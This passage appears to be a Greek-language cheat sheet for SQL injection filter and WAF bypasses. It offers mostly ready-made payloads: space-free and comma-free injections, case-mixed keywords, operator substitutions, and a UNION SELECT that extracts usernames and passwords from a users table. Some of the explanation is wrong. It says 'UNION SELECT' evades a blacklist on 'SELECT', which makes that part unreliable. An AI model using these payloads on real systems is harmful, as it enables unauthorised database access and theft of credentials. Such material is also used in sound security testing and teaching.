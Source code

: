 Αυτή η τεχνική είναι αποτελεσματική όταν ο έλεγχος των εισόδων γίνεται με τη χρήση του χαρακτήρα κενού για να χωρίσει τις λέξεις. Ωστόσο, πρέπει να ληφθεί υπόψη ότι αυτή η τεχνική μπορεί να αποτύχει εάν ο έλεγχος των εισόδων γίνεται με άλλους τρόπους.
```sql
?id=(1)and(1)=(1)--
```
### Παράκαμψη χωρίς κόμματα

Παράκαμψη χωρίς κόμματα - παράκαμψη χρησιμοποιώντας OFFSET, FROM και JOIN
```
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```
### Γενικές Παρακάμψεις

Μαύρη λίστα με λέξεις-κλειδιά - παράκαμψη χρησιμοποιώντας κεφαλαία/πεζά γράμματα
```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```
## Μαύρη λίστα με χρήση λέξεων-κλειδιών μη διάκρισης πεζών-κεφαλαίων - παράκαμψη χρησιμοποιώντας έναν ισοδύναμο τελεστή

Όταν αντιμετωπίζουμε μια μαύρη λίστα που χρησιμοποιεί λέξεις-κλειδιά για να φιλτράρει εισαγωγές SQL, μπορούμε να παρακάμψουμε τον έλεγχο χρησιμοποιώντας έναν ισοδύναμο τελεστή. Αυτό μας επιτρέπει να εκτελέσουμε εντολές SQL που θα αποκτήσουν πρόσβαση στη βάση δεδομένων, ακόμα και αν ο έλεγχος της μαύρης λίστας αποτύχει.

Για παράδειγμα, αν η μαύρη λίστα περιέχει τη λέξη-κλειδί "SELECT" και θέλουμε να εκτελέσουμε μια εντολή SELECT, μπορούμε να χρησιμοποιήσουμε τον ισοδύναμο τελεστή "UNION SELECT". Αυτό θα παρακάμψει τον έλεγχο της μαύρης λίστας και θα μας επιτρέψει να εκτελέσουμε την επιθυμητή εντολή SQL.

Παρακάτω παρουσιάζεται ένα παράδειγμα της τεχνικής αυτής:

```sql
' UNION SELECT null,username||'~'||password FROM users --
```

Στο παραπάνω παράδειγμα, η εντολή UNION SELECT εισάγεται μεταξύ των μονάδων μιας εντολής SQL που θα εκτελεστεί από τη βάση δεδομένων. Η εντολή αυτή επιστρέφει τα ονόματα χρηστών και τους κωδικούς πρόσβασης από τον πίνακα "users". Ο χαρακτήρας "~" χρησιμοποιείται για να διαχωρίσει τα ονόματα χρηστών και τους κωδικούς πρόσβασης.

Με αυτόν τον τρόπο, μπορούμε να παρακάμψουμε τον έλεγχο της μαύρης λίστας και να ανακτήσουμε ευαίσθητες πληροφορίες από τη βάση δεδομένων.
```
AND   -> && -> %26%26
OR    -> || -> %7C%7C
=     -> LIKE,REGEXP,RLIKE, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING --> LIMIT X,1 -> group_concat(CASE(table_schema)When(database())Then(table_name)END) -> group_concat(if(table_schema=database(),table_name,null))
```
### Επιστημονική Σημείωση Παράκαμψης WAF
